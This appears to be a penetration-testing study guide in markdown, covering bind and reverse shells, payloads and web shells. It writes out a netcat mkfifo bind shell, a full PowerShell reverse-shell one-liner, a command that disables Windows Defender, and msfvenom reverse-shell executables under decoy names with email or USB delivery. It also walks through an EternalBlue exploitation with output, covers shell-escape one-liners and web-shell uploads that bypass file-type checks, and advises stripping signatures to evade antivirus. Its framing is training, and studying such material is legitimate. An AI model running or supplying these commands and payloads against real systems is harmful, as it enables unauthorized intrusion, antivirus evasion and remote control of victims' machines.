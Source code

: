 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
msf6 > search smb
```

Selecting an Exploit  

```bash
msf6 > use 56
```

Examining an Exploit's Options  

```bash
msf6 > options
```

Setting Options  

```bash
msf6 > set RHOSTS <TARGET IP>
msf6 > set SMBUser <USER>
msf6 > set SMBPass <PASSWORD>
msf6 > set LHOST <ATTACKER IP>
msf6 > set LPORT <ATTACKER PORT>
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
msf6 > run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When performing ICMP-based host discovery, Windows systems typically respond with one of these ICMP reply codes:

* Code 128: Standard response (most common)

* Code 32: Alternate response variant

These reply codes serve as reliable indicators of an active Windows host when conducting ping sweeps or network reconnaissance.  

**Attack Machine:** Ping target
```bash
ping <TARGET IP> (<TARGET IP>): 56 data bytes
64 bytes from <TARGET IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <TARGET IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <TARGET IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <TARGET IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <TARGET IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <TARGET IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** Dynamic Link Libraries (DLLs) are shared resource files in Microsoft Windows that allow multiple programs to access common code and data simultaneously. Attackers can exploit these files by either injecting a malicious DLL or hijacking a vulnerable system library, enabling privilege escalation to SYSTEM level or bypassing User Account Control (UAC) security measures.

**Batch:** Text-based DOS scripts used by system administrators to automate multiple tasks through the command-line interpreter (CLI).

**VBS:** A lightweight scripting language derived from Microsoft’s Visual Basic. While historically used for client-side web scripting to enable dynamic content, modern browsers have largely deprecated VBS due to security concerns.

Primarily observed in:

* Phishing campaigns (e.g., malicious macros in Office documents)

* Social engineering attacks (e.g., tricking users to enable script execution)

* Legacy system maintenance (rare edge cases)

> **Security Note:** Execution typically requires explicit user interaction (e.g., enabling macros, clicking embedded objects).

**MSI:** MSI files contain installation instructions and components for Windows applications. Attackers can exploit this system by:

1. Creating malicious MSI packages containing payloads

2. Delivering them to target systems

3. Executing them via the Windows Installer service (msiexec.exe)

This technique can provide:

* Elevated privileges (often SYSTEM-level access)

* Persistent reverse shells

* Bypass of some security controls

**Powershell:** PowerShell serves as both an interactive shell and powerful scripting language, offering extensive capabilities for offensive security operations:

Key Advantages:

* Native Windows integration (no additional dependencies)

* Deep system access (Windows Management Instrumentation, .NET integration)

* Flexible in-memory execution (evades disk-based detection)

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF stands as an indispensable tool for penetration testers, offering exceptional versatility across all stages of security assessments. This comprehensive platform enables professionals to conduct host enumeration, craft customized payloads, deploy both public and private exploits, and execute sophisticated post-exploitation activities.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -n -Pn -sS -T4 -sV -sC -A -O --min-rate 5000 <TARGET IP> -oX nmap_target_xml_scan.xml
xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine if the targert is vulnerable** 

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010 
msf6 > show options
msf6 > set RHOSTS <TARGET IP>
msf6 > run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_ms17_010) >> run

# [+] <TARGET IP>:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
# [*] <TARGET IP>:445       - Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
```

The vulnerability assessment indicates a high probability of an EternalBlue exploit working against our target. We'll proceed with configuring the exploit module and payload before initiating the attack.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
msf6 > search eternal
msf6 > use exploit/windows/smb/ms17_010_psexec
msf6 > options
msf6 > set LHOST <ATTACKER IP>
msf6 > set RHOSTS <TARGET IP>
```

Based on prior success rates with the PsExec variant, we'll prioritize this exploit method for initial execution. For this engagement, we've selected a standard Windows Meterpreter reverse TCP payload to maintain operational simplicity.

**Attack Machine: Execute Our Attack**  

```bash
msf6 > run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> run

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <TARGET IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <TARGET IP>:445 - Built a write-what-where primitive...
# [+] <TARGET IP>:445 - Overwrite complete... SYSTEM session obtained!
# [*] <TARGET IP>:445 - Selecting PowerShell target
# [*] <TARGET IP>:445 - Executing the payload...
# [+] <TARGET IP>:445 - Service start timed out, OK if running a command or non-service executable...
# [*] Sending stage (175174 bytes) to <TARGET IP>
# [*] Meterpreter session 1 opened (<ATTACKER IP>:4444 -> <TARGET IP>:49672) at 2025-06-24 13:13:34 -0400

# (Meterpreter 1)(C:\Windows\system32) > 
```

With an active Meterpreter session established (indicated by the meterpreter > prompt), we now have multiple interaction options.

**Attack Machine: Verify Our Session**  

```bash
getuid
```

Expected output  

```bash
# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell
```

Expected output  

```bash
# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
msf6 > search rconfig
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
msf6 > options
msf6 > set RHOSTS <TARGET IP>
msf6 > set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
msf6 > exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

When encountering systems with restricted shell access and no Python interpreter, we should be prepared with alternative methods to escalate to an interactive shell. Several reliable techniques exist for this common post-exploitation scenario:

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

When Ruby is available on a target system, the following command can execute a system shell:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

When Lua is available on a target system, the os.execute() function can be leveraged to spawn system shells. The most reliable approach uses absolute paths to avoid dependency on environment variables:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a powerful pattern scanning and processing language with C-like syntax, commonly available on UNIX/Linux systems. AWK also provides functionality that can be leveraged to establish interactive shell sessions in security contexts.

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

The find command's -exec parameter can directly invoke a shell interpreter, but this method is contingent on locating the specified file - if the search fails, no shell session will be established.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell provides browser-based command execution on a web server's underlying operating system, frequently serving as the initial persistence mechanism in web application attacks. This foothold often enables subsequent upgrades to fully interactive reverse shells.

In external penetration testing engagements, the most prevalent initial access vectors include:

* Web application vulnerabilities (file upload flaws, SQL injection, RFI/LFI, command injection)

* Credential-based attacks against exposed services (RDS, VPN portals, Citrix, OWA) leveraging Active Directory authentication

* Social engineering campaigns

Web applications typically constitute the largest exposed attack surface during external assessments. Common findings include unsecured file upload functionality accepting malicious PHP, JSP, or ASP.NET web shells.

<details>
<summary><h2>Laudanum</h2></summary>  

Laudanum is a curated collection of pre-built injection files designed for web application penetration testing. This repository provides security professionals with:

**Key Capabilities:**

* Immediate reverse shell establishment

* Browser-based command execution on compromised hosts

* Cross-language support (ASP, ASPX, JSP, PHP, etc.)

**Operational Value:**

* Rapid deployment during security assessments

* Multiple language support for diverse web environments

* Pre-tested payloads reducing setup time

<details>
<summary><h3>Installation</h3></summary>  

**Clone the repository**  

```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum toolkit is typically pre-installed at the following location:

```bash
/usr/share/laudanum
```

For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

Antak is an ASP.NET web shell included in the Nishang framework, an offensive PowerShell toolkit designed for penetration testing across all engagement phases.

**Key Features:**

* PowerShell Integration: Executes commands directly via PowerShell, ideal for Windows server exploitation

* User Interface: PowerShell-themed UI for seamless interaction

* Operational Flexibility: Supports post-exploitation activities within compromised environments

**Advantages in Engagements:**

* Native compatibility with Windows environments

* Leverages PowerShell’s extensive system access

* Maintains low visibility when properly configured

<details>
<summary><h3>Installation</h3></summary>  

The Antak script can be found at the following location:

```bash
/usr/share/nishang/Antak-WebShell
```

Or in this [file](../scripts/shells/antak.aspx) included in this repository.

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/samratashok/nishang.git /usr/share/nishang/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Move a Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./shell.aspx
```

**Modify the Shell for Use**

Always configure authentication credentials for your web shell to prevent unauthorized access.

> **Note:** It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

> **Note:** This path requires Windows-style backslashes (\) rather than standard forward slashes (/).

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master). We can download this or copy and paste the source code into a .php file.

<details>
<summary><h3>Installation</h3></summary>  

The script can be found [here](../scripts/shells/webshell.php) or cloning WhiteWinterWolf's [repository](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master).

**Clone the complete nishang repository**  

```bash
sudo git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git /usr/share/wwwolf-php-webshell/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Proxy Settings**

To intercept web traffic through Burp Suite:

1. Launch Burp Suite

    * Ensure the proxy listener is active (default: 127.0.0.1:8080)

2. Configure Browser Proxy Settings

    * Navigate to your browser's network/proxy configuration

    * Enter the following values:

    ```bash
    IP Address/Host: 127.0.0.1  
    Port: 8080
    ```

    * Disable any SSL/TLS verification warnings (for testing environments only)

3. Verification

    * Visit any HTTP page to confirm traffic appears in Burp's Proxy → Intercept tab

> **Note:** Our goal is to change the content-type to bypass the file type restriction in uploading files to be "presented" as something else so we can navigate to that file and have our web shell.

**Bypassing the File Type Restriction**  

We will change Content-type from application/x-php to image/gif. This will essentially "trick" the server and allow us to upload the .php file, bypassing the file type restriction. Once we do this, we can select Forward.

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Considerations when Dealing with Web Shells
</h2></summary>  

When utilizing web shells, consider the below potential issues that may arise during your penetration testing process:

* Web applications sometimes automatically delete files after a pre-defined period
* Limited interactivity with the operating system in terms of navigating the file system, downloading and uploading files, chaining commands together may not work (ex. whoami && hostname), slowing progress, especially when performing enumeration -Potential instability through a non-interactive web shell
* Greater chance of leaving behind proof that we were successful in our attack

Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and cover our tracks. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. 

</details>

</details>

---

📘 **Next step:** Continue with [METASPLOIT FRAMEWORK](./06-metasploit-framework.md)
